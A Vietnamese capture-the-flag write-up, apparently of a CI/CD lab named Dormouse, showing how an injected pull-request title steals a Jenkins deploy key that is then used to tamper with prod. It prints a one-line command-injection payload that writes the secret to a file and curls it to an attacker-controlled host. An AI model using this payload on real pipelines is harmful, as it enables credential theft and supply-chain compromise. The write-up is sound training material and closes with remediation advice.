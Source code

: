 # Dormouse

![Untitled](Dormouse%208d80348bc0d9444e821ff3e68c2b81f0/Untitled.png)

Sau khi kiểm tra project trên Jenkins ta thấy project Dormouse được cấu hình multiple branch pipeline và khi sửa pipeline, ta thấy nó vẫn dùng pipeline của branch main.

Tạo PR để kiểm tra job có chạy không, user alice không có quyền để tự merge vào branch main.

![Untitled](Dormouse%208d80348bc0d9444e821ff3e68c2b81f0/Untitled%201.png)

Không có job nào được chạy

![Untitled](Dormouse%208d80348bc0d9444e821ff3e68c2b81f0/Untitled%202.png)

Chỉ có thể thực hiện build thủ công, nó sẽ kéo code từ branch main về để build, tuy nhiên ta không thể sửa đổi code trong branch main được do owner đã cấu hình chỉ cho người có quyền mới được merge code.

![Untitled](Dormouse%208d80348bc0d9444e821ff3e68c2b81f0/Untitled%203.png)

Kiểm tra Jenkinsfile, ta thấy ở stage Unit Tests, nó thực hiện down file reportcov.sh từ [http://prod/reportcov.sh](http://prod/reportcov.sh) để thực thi. 

![Untitled](Dormouse%208d80348bc0d9444e821ff3e68c2b81f0/Untitled%204.png)

Kiểm tra file [reportcov.sh](http://reportcov.sh), file được tải xuống mà không có bất cứ biện pháp ngăn chặn nào

![Untitled](Dormouse%208d80348bc0d9444e821ff3e68c2b81f0/Untitled%205.png)

Nội dung của file này là upload 1 file report unit test bằng html lên địa chỉ [http://localhost:1111/upload](http://localhost:1111/upload) với biến env ${TOKEN}

![Untitled](Dormouse%208d80348bc0d9444e821ff3e68c2b81f0/Untitled%206.png)

![Untitled](Dormouse%208d80348bc0d9444e821ff3e68c2b81f0/Untitled%207.png)

Mục tiêu của ta là sẽ tìm cách thay đổi nội dung của file reportcov.sh để RCE

Khi truy cập vào [http://prod](http://prod) thì báo 403, không có quyền truy cập

![Untitled](Dormouse%208d80348bc0d9444e821ff3e68c2b81f0/Untitled%208.png)

Sau khi fuzzing path thì đều return về 403.

![Untitled](Dormouse%208d80348bc0d9444e821ff3e68c2b81f0/Untitled%209.png)

Liệu có thể tìm repo của web này và thay đổi nội dung của file trong source code ?

(Đoạn này em xem hint vì trong repo của mình chỉ hiện các repo bên dưới, không rõ repo của prod ở đâu)

![Untitled](Dormouse%208d80348bc0d9444e821ff3e68c2b81f0/Untitled%2010.png)

![Untitled](Dormouse%208d80348bc0d9444e821ff3e68c2b81f0/Untitled%2011.png)

Tìm được source của reportcov

![Untitled](Dormouse%208d80348bc0d9444e821ff3e68c2b81f0/Untitled%2012.png)

![Untitled](Dormouse%208d80348bc0d9444e821ff3e68c2b81f0/Untitled%2013.png)

Kiểm tra Jenkinsfile của reportcov.sh, ta thấy biến title là một untrusted data mà ta có thể kiểm soát được, nó được dùng trong 1 lệnh shell

Công thức :

<aside>
💡 Unsafe method + Untrusted data = 👹

</aside>

![Untitled](Dormouse%208d80348bc0d9444e821ff3e68c2b81f0/Untitled%2014.png)

Tiếp tục check file Jenkinsfile, ta thấy ở stage Deploy, nó sử dụng biến KEY, ở đây có thể là private key dùng cho lệnh scp bên dưới.

![Untitled](Dormouse%208d80348bc0d9444e821ff3e68c2b81f0/Untitled%2015.png)

Mục tiêu của ta là sẽ lấy được biến KEY và tự chạy lệnh scp cùng private key lấy được.

Tạo 1 python server để nhận key value từ reportcov pipeline gửi đến

Sửa title thành:

<aside>
💡 `echo "${KEY}" > key && curl -v -G -F file=@key http://host.docker.internal:9898`

</aside>

![Untitled](Dormouse%208d80348bc0d9444e821ff3e68c2b81f0/Untitled%2016.png)

Sau khi tạo PR, ta nhận được log sau trên python server:

![Untitled](Dormouse%208d80348bc0d9444e821ff3e68c2b81f0/Untitled%2017.png)

Kiểm tra private key:

![Untitled](Dormouse%208d80348bc0d9444e821ff3e68c2b81f0/Untitled%2018.png)

Chỉnh sửa lại content file để get flag

![Untitled](Dormouse%208d80348bc0d9444e821ff3e68c2b81f0/Untitled%2019.png)

Push file lên prod sử dụng ssh với key vừa lấy được

![Untitled](Dormouse%208d80348bc0d9444e821ff3e68c2b81f0/Untitled%2020.png)

Build lại repo dormouse để get flag

![Untitled](Dormouse%208d80348bc0d9444e821ff3e68c2b81f0/Untitled%2021.png)

Decode base64:

![Untitled](Dormouse%208d80348bc0d9444e821ff3e68c2b81f0/Untitled%2022.png)

Submit flag:

![Untitled](Dormouse%208d80348bc0d9444e821ff3e68c2b81f0/Untitled%2023.png)

## **Điểm yếu bảo mật:**

- Input không được kiểm soát
    
    <aside>
    💡 Unsafe method + Untrust data = 😂
    
    </aside>
    

## Biện pháp khắc phục:

- Sử dụng third-party từ các bên tin cậy
- Kiểm soát chặt chẽ input
    - Sử dụng github hook validate commit message
        
        ![Untitled](Dormouse%208d80348bc0d9444e821ff3e68c2b81f0/Untitled%2024.png)
        
    - Sử dụng white list để block những hot key